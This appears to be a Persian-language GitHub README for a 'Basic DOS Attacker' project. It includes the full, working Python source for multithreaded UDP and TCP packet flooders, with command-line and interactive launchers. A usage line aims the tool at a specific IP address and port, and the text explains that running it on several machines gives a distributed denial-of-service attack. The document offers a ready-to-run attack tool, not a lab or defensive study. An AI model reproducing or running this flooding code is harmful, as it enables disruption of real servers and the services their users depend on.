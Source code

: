# Basic DOS Attacker

این یک اسکریپت ساده و پایه ای جهت انجام حملات محروم سازی از سرویس است.
این برنامه از طریق ایجاد سیل هایی از بسته ها و ارسال آن ها به سرور مقصد باعث بالا رفتن لود سرور و در نهایت از کار افتادگی آن می شود.

## نصب ابزار مورد نیاز

این پروژه برای اجرا تنها به پایتون ۳ نیاز دارد. در این پروژه تنها از پکیج های داخلی پایتون استفاده شده است و نیازی به نصب پکیج بیرونی نیست.
لییست پکیج های داخلی به کار رفته در آن به صورت زیر است:
```bash
socket
threading
random
time
argparse
```

## اجرای اسکریپت

برای اجرای اسکریپت کافی است دستور زیر را اجرا کنید:
```bash
python main.py -a 188.121.110.10 -p 8085
```

همچنین برای مشاهده راهنمای برنامه و آرگومان های ورودی می توانید از دستور زیر استفاده کنید:
```bash
python main.py -h
```

برای خاتمه اسکریپت می توانید از سیگنال زیر استفاده کنید:
```bash
ctrl + c
```

آرگومان های ورودی به صورت زیر تعریف شده است:
```bash
usage: main.py [-h] -a ADDRESS [-p PORT] [-c CHOICE] [-m PACKETS] [-t THREADS]

Basic DOS Attacker

optional arguments:
  -h, --help  show this help message and exit
  -a ADDRESS  Hostname or IP address
  -p PORT     Port, default 80
  -c CHOICE   UDP or TCP, default UPD
  -m PACKETS  Num of packets in a socket, default 10
  -t THREADS  Num of threads, default 2
```

همچنین یک منو تعاملی با رابط ترمینال نیز فراهم شده است. برای اجرای آن می توانید از دستور زیر استفاده کنید:
```bash
python menu.py
```

## توضیح اسکریپت

نحوه ایجاد جریان یو دی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def udp_flooder(thread_number, ip, port, packets):
    data = random._urandom(1024)
    s = None
    while True:
        try:
            # UDP = SOCK_DGRAM
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            address = (str(ip), int(port))
            for _ in range(packets):
                s.sendto(data, address)
            s.close()
            print(f"[{thread_number}] {packets} UDP packet sent")
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال یو دی پی است.
ابتدا یک داده با طول 1024 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع یو دی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

نحوه ایجاد جریان تی سی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def tcp_flooder(thread_number, ip, port, packets):
    data = random._urandom(16)
    s = None
    while True:
        try:
            # TCP = SOCK_STREAM
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.send(data)
            for _ in range(packets):
                s.send(data)
            print(f"[{thread_number}] {packets} TCP packet sent")
            s.close()
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال تی سی پی است.
ابتدا یک داده با طول 16 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع تی سی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس اتصال تی سی پی برقرار می شود. مشاهده شد که در حالت تی سی پی نیاز به اتصال بود اما در یو دی پی اینطور نبود.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

تابع زیر با گرفتن نوع اتصال تابع تولید کننده جریان را خروجی می دهد.
از این تابع برای انتخاب جریان ساز درون مدیر رشته های پردازشی استفاده خواهد شد:
```python
def flooder_selector(choice):
    if choice == "UDP":
        return udp_flooder
    elif choice == "TCP":
        return tcp_flooder
    else:
        return None
```

یک تابع برای مدیریت رشته های پردازشی ایجاد شده است:
```python
def thread_manager(threads, flooder, ip, port, packets):
    for i in range(threads):
        th = threading.Thread(target=flooder, daemon=True, args=(i, ip, port, packets))
        th.start()
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال است.
سپس به تعداد رشته های پردازشی مورد نیاز رشته حاوی جریان تولید می شود.
رشته های ساخته شده از نوع دیمن می باشند که در پشت صحنه رشته اصلی اجرا می شود و دارای اولویت کمتری نسبت به آن است. هنگامی که رشته اصلی از بین می رود تمامی رشته های دیمن نیز از بین خواهند رفت.

در نهایت یک تابع اصلی برای تجزیه آرگومان های ورودی و اجرای توابع بالا ایجاد شده است:
```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Basic DOS Attacker')
    parser.add_argument("-a", dest="address", required=True, help="Hostname or IP address")
    parser.add_argument("-p", dest="port", default=80, type=int, help="Port, default 80")
    parser.add_argument("-c", dest="choice", default="UDP", help="UDP or TCP, default UPD")
    parser.add_argument("-m", dest="packets", default=10, type=int, help="Num of packets in a socket, default 10")
    parser.add_argument("-t", dest="threads", default=2, type=int, help="Num of threads, default 2")
    args = parser.parse_args()

    ip = args.address
    port = args.port
    choice = args.choice
    packets = args.packets
    threads = args.threads

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```
در انتهای این تابع یک حلقه بی نهایت ایجاد شده است تا رشته اصلی تمام نشود.
زیرا اگر این رشته تمام شود تمام زیر رشته های دیمن آن نیز خاتمه می یابند.

تابع منو نیز مشابه تابع بالا است اما به صورت تعامل از طریق ترمینال:
```python
if __name__ == '__main__':
    ip = str(input("Hostname or IP address: "))
    port = int(input("Port: "))
    choice = str(input("UDP or TCP: "))
    packets = int(input("Num of packets in a socket: "))
    threads = int(input("Num of threads: "))

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```

## تبدیل به حالت توزیع شده
در صورتی که این اسکریپت به صورت همزمان و با ورودی های یکسان بر روی چندین ماشین اجرا شود تبدیل به یک حمله بسیار ساده توزیع شده محروم سازی از سرویس می شود.

DDoS Attack

## نتایج 
تصویر زیر منوی برنامه و نحوه ورودی گرفتن آن را نشان می دهد:
![menu](docs/menu.jpg)

تصویر زیر نحوه لاگ های حالت یو دی پی به همراه آرگومان های ورودی برنامه را نشان می دهد:
![udp-attack](docs/udp.jpg)

تصویر زیر نحوه لاگ های حالت تی سی پی به همراه آرگومان های ورودی برنامه را نشان می دهد:
![udp-attack](docs/udp.jpg)

در دو تصویر بالا عدد درون براکت بیانگر شماره رشته پردازشی اجرایی می باشد.